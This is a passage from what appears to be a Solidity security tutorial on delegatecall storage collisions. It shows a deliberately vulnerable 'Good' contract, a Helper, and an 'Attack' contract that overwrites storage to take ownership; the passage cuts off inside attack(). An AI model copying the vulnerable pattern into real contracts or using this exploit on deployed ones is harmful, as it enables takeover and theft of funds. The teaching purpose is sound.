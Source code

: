 ```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public helper;
    address public owner;
    uint public num;

    constructor(address _helper) {
        helper = _helper;
        owner = msg.sender;
    }

    function setNum( uint _num) public {
        helper.delegatecall(abi.encodeWithSignature("setNum(uint256)", _num));
    }
}
```

After creating `Good.sol`, we will create the `Helper` contract inside the `contracts` directory named `Helper.sol`. This is a simple contract which updates the value of `num` through the `setNum` function. Since it only has one variable, the variable will always point to `Slot 0`. When used with `delegatecall`, it will modify the value at `Slot 0` of the original contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Helper {
    uint public num;

    function setNum(uint _num) public {
        num = _num;
    }
}
```

Now create a contract named `Attack.sol` within the `contracts` directory and write thee following lines of code. We will understand how it works step by step.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    address public helper;
    address public owner;
    uint public num;

    Good public good;

    constructor(Good _good) {
        good = Good(_good);
    }

    function setNum(uint _num) public {
        owner = msg.sender;
    }

    function attack() public {
        // This is the way you typecast an address to a uint
        good.setNum(uint(uint160(address(this))));
        good.setNum(1);
```